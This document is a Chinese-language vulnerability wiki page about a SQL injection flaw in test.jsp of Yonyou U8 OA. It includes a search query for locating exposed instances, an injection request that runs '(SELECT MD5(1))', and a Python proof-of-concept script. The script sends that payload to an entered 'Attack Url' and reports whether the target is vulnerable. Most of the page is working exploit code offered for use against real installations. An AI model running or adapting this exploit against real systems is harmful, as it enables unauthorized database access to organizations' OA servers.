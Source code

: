 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

```
用友 U8 OA
```

## 网络测绘

```
"用友U8-OA"
```

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA A6 test.jsp SQL注入漏洞.html)

登录页面如下

![yongyou-1-1](./images/yongyou-1-1.png)

POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![yongyou-1-2](./images/yongyou-1-2.png)

利用方法与致远OA 的SQL注入类似

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![yongyou-1-3](./images/yongyou-1-3.png)
